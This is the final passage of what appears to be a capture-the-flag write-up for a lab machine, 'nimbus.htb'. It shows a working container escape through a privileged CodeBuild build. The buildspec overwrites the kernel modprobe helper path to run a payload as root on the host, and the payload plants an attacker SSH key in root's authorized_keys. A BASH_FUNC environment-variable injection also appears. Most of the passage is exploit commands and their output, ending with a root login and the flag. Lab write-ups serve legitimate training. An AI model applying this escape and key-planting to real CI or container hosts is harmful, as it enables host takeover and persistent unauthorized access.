>         echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB8r4vPbn2m6ycgd7n22IPKG9aN7kviP37uw03woICNN' >> /root/.ssh/authorized_keys
>         chmod 700 /root/.ssh
>         chmod 600 /root/.ssh/authorized_keys
>         PAYLOAD
>       - chmod +x /tmp/payload.sh
>       - |
>         upper=$(awk '/overlay/{match($0,/upperdir=([^,]+)/,a);if(a[1])print a[1]}' /proc/mounts | head -1)
>         echo "$upper/tmp/payload.sh" > /proc/sys/kernel/modprobe
>       - printf '\xff\xff\xff\xff' > /tmp/x && chmod +x /tmp/x && /tmp/x; true
> EOF
```

The final `CodeBuild` project definition embedded the escape buildspec and kept `privilegedMode` enabled.

```shell
cat > /tmp/source.json << 'EOF'
{
  "name": "containerescape",
  "source": {
    "type": "NO_SOURCE",
    "buildspec": "version: 0.2\nphases:\n  build:\n    commands:\n      - |\n        cat > /tmp/payload.sh << 'PAYLOAD'\n        #!/bin/sh\n        mkdir -p /root/.ssh\n        echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB8r4vPbn2m6ycgd7n22IPKG9aN7kviP37uw03woICNN' >> /root/.ssh/authorized_keys\n        chmod 700 /root/.ssh\n        chmod 600 /root/.ssh/authorized_keys\n        PAYLOAD\n      - chmod +x /tmp/payload.sh\n      - |\n        upper=$(awk '/overlay/{match($0,/upperdir=([^,]+)/,a);if(a[1])print a[1]}' /proc/mounts | head -1)\n        echo \"$upper/tmp/payload.sh\" > /proc/sys/kernel/modprobe\n      - printf '\\xff\\xff\\xff\\xff' > /tmp/x && chmod +x /tmp/x && /tmp/x; true\n"
  },
  "artifacts": {
    "type": "NO_ARTIFACTS"
  },
  "environment": {
    "type": "LINUX_CONTAINER",
    "image": "floci/floci:latest",
    "computeType": "BUILD_GENERAL1_SMALL",
    "privilegedMode": true,
    "environmentVariables": [
      {
        "name": "BASH_FUNC_id%%",
        "value": "() { echo \"uid=0(root) gid=0(root) groups=0(root)\"; }",
        "type": "PLAINTEXT"
      }
    ]
  },
  "serviceRole": "arn:aws:iam::000000000000:role/codebuild-role"
}
EOF
```

```shell
worker@d5bd6791686a:/tmp$ cat > /tmp/source.json << 'EOF'
> {
>   "name": "containerescape",
>   "source": {
>     "type": "NO_SOURCE",
<- |\n        upper=$(awk '/overlay/{match($0,/upperdir=([^,]+)/,a);if(a[1])print a[1]}' /proc/mounts | head -1)\n        echo \"$upper/tmp/payload.sh\" > /proc/sys/kernel/modprobe\n      - printf '\\xff\\xff\\xff\\xff' > /tmp/x && chmod +x /tmp/x && /tmp/x; true\n"
>   },
>   "artifacts": {
>     "type": "NO_ARTIFACTS"
>   },
>   "environment": {
>     "type": "LINUX_CONTAINER",
>     "image": "floci/floci:latest",
>     "computeType": "BUILD_GENERAL1_SMALL",
>     "privilegedMode": true,
>     "environmentVariables": [
>       {
>         "name": "BASH_FUNC_id%%",
>         "value": "() { echo \"uid=0(root) gid=0(root) groups=0(root)\"; }",
>         "type": "PLAINTEXT"
>       }
>     ]
>   },
>   "serviceRole": "arn:aws:iam::000000000000:role/codebuild-role"
> }
> EOF
```

The container escape project was created successfully.

```shell
aws codebuild create-project --cli-input-json file:///tmp/source.json --endpoint-url http://floci:4566 --region us-east-1
```

```shell
worker@d5bd6791686a:/tmp$ aws codebuild create-project --cli-input-json file:///tmp/source.json --endpoint-url http://floci:4566 --region us-east-1
WARNING: terminal is not fully functional
Press RETURN to continue 
{
    "project": {
        "name": "containerescape",
        "arn": "arn:aws:codebuild:us-east-1:847219365028:project/containerescape",
        "source": {
            "type": "NO_SOURCE",
            "buildspec": "version: 0.2\nphases:\n  build:\n    commands:\n      - |\n        cat > /tmp/payload.sh << 'PAYLOAD'\n        #!/bin/sh\n        mkdir -p /root/.ssh\n        echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB8r4vPbn2m6ycgd7n22IPKG9aN7kviP37uw03woICNN' >> /root/.ssh/authorized_keys\n        chmod 700 /root/.ssh\n        chmod 600 /root/.ssh/authorized_keys\n        PAYLOAD\n   
   - chmod +x /tmp/payload.sh\n      - |\n        upper=$(awk '/overlay/{match($0,/upperdir=([^,]+)/,a);if(a[1])print a[1]}' /proc/mounts | head -1)\n        echo \"$upper/tmp/payload.sh\" > /proc/sys/kernel/modprobe\n      - printf '\\xff\\xff\\xff\\xff' > /tmp/x && chmod +x /tmp/x && /tmp/x; true\n"
        },
        "artifacts": {
            "type": "NO_ARTIFACTS"
        },
        "environment": {
            "type": "LINUX_CONTAINER",
            "image": "floci/floci:latest",
            "computeType": "BUILD_GENERAL1_SMALL",
            "environmentVariables": [
                {
                    "name": "BASH_FUNC_id%%",
                    "value": "() { echo \"uid=0(root) gid=0(root) groups=0(root)\"; }",
                    "type": "PLAINTEXT"
                }
            ],
            "privilegedMode": true
        },
        "serviceRole": "arn:aws:iam::000000000000:role/codebuild-role",
        "timeoutInMinutes": 60,
        "queuedTimeoutInMinutes": 480,
        "created": "2026-06-22T15:07:54.667000+00:00",
        "lastModified": "2026-06-22T15:07:54.667000+00:00",
        "projectVisibility": "PRIVATE"
    }
}
```

Starting the build triggered the `modprobe` helper overwrite and executed the payload as `root` on the host.

```shell
aws codebuild start-build --project-name containerescape --endpoint-url http://floci:4566 --region us-east-1
```

```shell
worker@d5bd6791686a:/tmp$ aws codebuild start-build --project-name containerescape --endpoint-url http://floci:4566 --region us-east-1
WARNING: terminal is not fully functional
Press RETURN to continue 
{
    "build": {
        "id": "containerescape:1",
        "arn": "arn:aws:codebuild:us-east-1:847219365028:build/containerescape:1",
        "buildNumber": 1,
        "startTime": "2026-06-22T15:08:41.652000+00:00",
        "currentPhase": "DOWNLOAD_SOURCE",
        "buildStatus": "IN_PROGRESS",
        "projectName": "containerescape",
        "phases": [
            {
                "phaseType": "SUBMITTED",
                "phaseStatus": "SUCCEEDED",
                "startTime": "2026-06-22T15:08:41.654000+00:00",
                "endTime": "2026-06-22T15:08:41.654000+00:00",
                "durationInSeconds": 0
            },
            {
                "phaseType": "QUEUED",
                "phaseStatus": "SUCCEEDED",
                "startTime": "2026-06-22T15:08:41.654000+00:00",
                "endTime": "2026-06-22T15:08:41.654000+00:00",
                "durationInSeconds": 0
            },
            {
                "phaseType": "PROVISIONING",
                "phaseStatus": "SUCCEEDED",
                "startTime": "2026-06-22T15:08:41.654000+00:00",
                "endTime": "2026-06-22T15:08:41.654000+00:00",
                "durationInSeconds": 0
            },
            {
                "phaseType": "DOWNLOAD_SOURCE",
                "phaseStatus": "IN_PROGRESS",
                "startTime": "2026-06-22T15:08:41.654000+00:00"
            }
        ],
        "source": {
            "type": "NO_SOURCE",
            "buildspec": "version: 0.2\nphases:\n  build:\n    commands:\n      - |\n        cat > /tmp/payload.sh << 'PAYLOAD'\n        #!/bin/sh\n        mkdir -p /root/.ssh\n        echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB8r4vPbn2m6ycgd7n22IPKG9aN7kviP37uw03woICNN' >> /root/.ssh/authorized_keys\n        chmod 700 /root/.ssh\n        chmod 600 /root/.ssh/authorized_keys\n        PAYLOAD\n   
   - chmod +x /tmp/payload.sh\n      - |\n        upper=$(awk '/overlay/{match($0,/upperdir=([^,]+)/,a);if(a[1])print a[1]}' /proc/mounts | head -1)\n        echo \"$upper/tmp/payload.sh\" > /proc/sys/kernel/modprobe\n      - printf '\\xff\\xff\\xff\\xff' > /tmp/x && chmod +x /tmp/x && /tmp/x; true\n"
        },
        "artifacts": {},
        "environment": {
            "type": "LINUX_CONTAINER",
            "image": "floci/floci:latest",
            "computeType": "BUILD_GENERAL1_SMALL",
            "environmentVariables": [
                {
                    "name": "BASH_FUNC_id%%",
                    "value": "() { echo \"uid=0(root) gid=0(root) groups=0(root)\"; }",
                    "type": "PLAINTEXT"
                }
            ],
            "privilegedMode": true
        },
        "timeoutInMinutes": 60,
        "queuedTimeoutInMinutes": 480,
        "buildComplete": false,
        "initiator": "user"
    }
}
```

After the build executed, the injected `SSH public key` allowed us to log in as `root` on the host directly.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh root@nimbus.htb
The authenticity of host 'nimbus.htb (10.129.26.24)' can't be established.
ED25519 key fingerprint is: SHA256:5qkwPI6m/wtokgKube+SzSe8Eew7l45AuShWf63C1lo
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'nimbus.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-124-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jun 21 08:50:04 AM UTC 2026

  System load:           0.27
  Usage of /:            66.5% of 9.43GB
  Memory usage:          17%
  Swap usage:            0%
  Processes:             288
  Users logged in:       0
  IPv4 address for eth0: 10.129.26.24
  IPv6 address for eth0: dead:beef::a0de:adff:feb5:4569

  => There are 55 zombie processes.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Last login: Sun Jun 21 08:50:06 2026 from 10.10.16.63
root@nimbus:~#
```

## root.txt

With `root` access on the host, all that was left was to read the final flag.

```shell
root@nimbus:~# cat root.txt 
835743eaaf6053cad07004d2515a5990
```